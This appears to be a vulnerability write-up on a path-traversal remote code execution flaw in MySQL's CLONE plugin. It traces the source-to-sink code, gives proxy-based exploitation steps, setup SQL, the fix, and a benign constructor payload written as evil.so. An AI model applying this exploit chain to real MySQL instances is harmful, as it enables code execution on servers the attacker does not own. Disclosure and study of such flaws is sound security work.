

> RCE in MySQL CLONE plugin
How CLONE works
CLONE INSTANCE FROM 'user'@'host':port
IDENTIFIED BY 'password'
[DATA DIRECTORY [=] 'clone_dir']
[REQUIRE [NO] SSL];Its purpose is to quickly add a new node to a cluster, create a new replica, or make a database copy. It is a useful and necessary tool in a DBA’s arsenal. Let us be DBAs for a while.
First, let us define the terminology:
- Donor — the host from which the database CLONE is copied
- Recipient — the host on which the CLONE command is invoked

Diagram
This is the sequence we will follow:
sequenceDiagram
autonumber
participant R as Recipient
participant P as proxy.py
participant D as Donor
P->>P: Load local evil.so, 15,656 bytes in the PoC<br>try to fit it into one page
D->>D: Create database test and table Z{22}, insert evil.so
Note over D: In the PoC, .ibd = 128 KiB, 8 pages of 16 KiB
R->>P: First CLONE into /tmp/clone1
P->>D: Forward request
D->>P: Path test/Z{22}.ibd and pages containing ELF magic
P->>R: Replace test/Z{22}.ibd → ../../../../tmp/evil.so
Note over P: 31 bytes become a 23-byte path + 8 NUL bytes of padding
P->>R: Target stream → local evil.so and zeroes up to 128 KiB
Note over R: /tmp/evil.so has been written
Note over P: Further .ibd replacement is disabled
D->>D: Install auth_socket, the plugin is absent on Recipient
R->>P: Second CLONE into /tmp/clone2, without TLS
P->>D: Forward request
D->>P: COM_RES_PLUGIN_V2, auth_socket, soname auth_socket.so
P->>R: Replace soname, auth_socket.so → ../../../../tmp/evil.so
R->>R: Validation calls dlopen(plugin_dir + soname)
Note over R: dlopen runs the constructor from evil.so
Settings
To make the process easier to handle, set the following variables on both the recipient and the donor:
SET GLOBAL innodb_checksum_algorithm = 'none';
SET GLOBAL clone_enable_compression = OFF;
SET GLOBAL clone_autotune_concurrency = OFF;
SET GLOBAL clone_max_concurrency = 1;
SET GLOBAL clone_max_data_bandwidth = 1;
SET GLOBAL clone_max_network_bandwidth = 1;| Setting | Effect | Why |
|---|---|---|
| innodb_checksum_algorithm | writes a constant value instead of a calculated checksum | reduces the influence of checksums during experiments that modify the transferred stream |
| clone_enable_compression | disables data compression | lets the proxy see and parse the original clone stream without an extra decompression stage |
| clone_autotune_concurrency | disables automatic thread-count changes based on throughput | automatic tuning is unnecessary here |
| clone_max_concurrency | limits the operation to one thread | makes metadata ordering more predictable |
| clone_max_data_bandwidth | limits the data transfer rate | slows file transfer, simplifying packet handling, buffering, and matching metadata to its file stream |
| clone_max_network_bandwidth | limits the network transfer rate | gives the proxy more time to parse and modify packets |
Path traversal
IBD
During a CLONE operation, the recipient first copies the value received in metadata while checking its length and \0; the second step concatenates it in Clone_Snapshot::build_file_path().
Next, apply_file_metadata() creates a file context from the descriptor and initiates file creation. Clone_Handle::open_file() takes the constructed name and passes it to os_file_create() with OS_FILE_CREATE_PATH. If the directories do not exist, they are helpfully created in os_file_create_subdirs_if_needed().
Source to sink:
The resulting source-to-sink chain is:
- CLONE_DESC_FILE_METADATA.m_file_name
- →
deserialize() - →
build_file_path(data_dir, file_meta) - → Clone_file_ctx
- →
open_file() - →
os_file_create(..., OS_FILE_CREATE_PATH, ...)
The first interesting finding is that clone_dir is not constrained by secure_file_priv, although it must either not exist or be empty. That rules out appending data to an existing location such as /home. Still, this gives us the first primitive: an arbitrary write to any location writable by the MySQL process.
SONAME
The second finding is that when the donor has a plugin, it is transferred in COM_RES_PLUGIN_V2 using this structure:
u8 response_command
u32le key_length
u8[] key
u32le value_length
u8[] valuekey is the plugin name, and value is its soname.
On the recipient, Client::handle_response() removes the command byte and passes the payload to add_plugin_with_so().
extract_string() and extract_key_value() correctly enforce bounds and read both u32le lengths, after which the pair is added to m_plugins_with_so.
So far, everything looks good and memory-safe.
Next, validate_remote_params() iterates over the donor plugins. If the plugin is already installed on the recipient, that branch ends. Otherwise, its soname is passed to plugin_is_loadable().
And plugin_is_loadable() literally does the following:
bool Client::plugin_is_loadable(std::string &so_name) {
Key_Values configs = { {"plugin_dir", ""} };
auto err =
mysql_service_clone_protocol->mysql_clone_get_configs(get_thd(), configs);
if (err != 0) {
return false;
}
std::string path(configs[0].second);
path.append("/");
path.append(so_name);
return clone_os_test_load(path);
}clone_os_test_load() calls:
bool clone_os_test_load(std::string &path) {
char dlpath[FN_REFLEN];
unpack_filename(dlpath, path.c_str());
auto handle = dlopen(dlpath, RTLD_NOW);
if (handle == nullptr) {
return false;
}
dlclose(handle);
return true;
}This is the second interesting point: the plugin body itself is not transferred. Only its name (soname) is sent, and the library is then found and loaded locally. This becomes the second primitive: dlopen() on an arbitrary path.
As a result, we have two flows:
- use path traversal and
.ibdreplacement to deliver our ELF, padding the remainder with\0; - use another path traversal, this time in the name of a plugin that is known to be absent, to execute
dlopen().
Why not use the regular plugin loader immediately? Because it correctly checks the path boundaries:
/**
Check if the provided path is valid in the sense that it does cause
a relative reference outside the directory.
@note Currently, this function only check if there are any
characters in FN_DIRSEP in the string, but it might change in the
future.
@code
check_valid_path("../foo.so") -> true
check_valid_path("foo.so") -> false
@endcode
*/
bool check_valid_path(const char *path, size_t len) {
size_t prefix = my_strcspn(files_charset_info, path, path + len, FN_DIRSEP,
strlen(FN_DIRSEP));
return prefix < len;
}The UDF loader behaves the same way:
No paths allowed for shared library
This is how it was fixed after the patch:
if (check_valid_path(so_name.c_str(), so_name.length())) {
return false;
}Test
On the recipient:
INSTALL PLUGIN clone SONAME 'mysql_clone.so';
SET GLOBAL clone_valid_donor_list = 'donor:3309';
CREATE USER 'ca'@'%' IDENTIFIED BY 'p';
GRANT CLONE_ADMIN ON *.* TO 'ca'@'%';
GRANT BACKUP_ADMIN ON *.* TO 'ca'@'%';On the donor:
CREATE USER 'clone_user'@'%' IDENTIFIED BY 'clone_pass';
GRANT BACKUP_ADMIN ON *.* TO 'clone_user'@'%';
INSTALL PLUGIN auth_socket SONAME 'auth_socket.so'; -- plugin not installed on recipient
CREATE TABLE ZZZZZZZZZZZZZZZZZZZZZZ (data LONGBLOB) ENGINE=InnoDB;Run the MITM proxy.py in front of the donor on port 3309.
On the recipient:
CLONE INSTANCE FROM 'clone_user'@'${PROXY_IP}':3309 IDENTIFIED BY 'clone_pass' DATA DIRECTORY = '/tmp/clone1' REQUIRE NO SSL;During the first pass, the proxy patches the .ibd at step (6) in the diagram.
Run the same command again with another directory, for example /tmp/clone2.
This time, the proxy switches to COM_RES_PLUGIN_V2 patching at step (12), and dlopen() -> constructor -> RCE executes on the recipient.
Example test ELF:
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>
__attribute__((constructor))
static void pwn(void) {
FILE *f = fopen("/tmp/clone_pwned", "w");
if (!f) return;
fprintf(f, "=== CLONE PATH TRAVERSAL RCE ===\n");
fprintf(f, "PID: %d\nUID: %d\nEUID: %d\n", getpid(), getuid(), geteuid());
fclose(f);
}This material is published solely for educational and informational purposes. Test the described techniques only on systems you own or where you have the owner’s permission.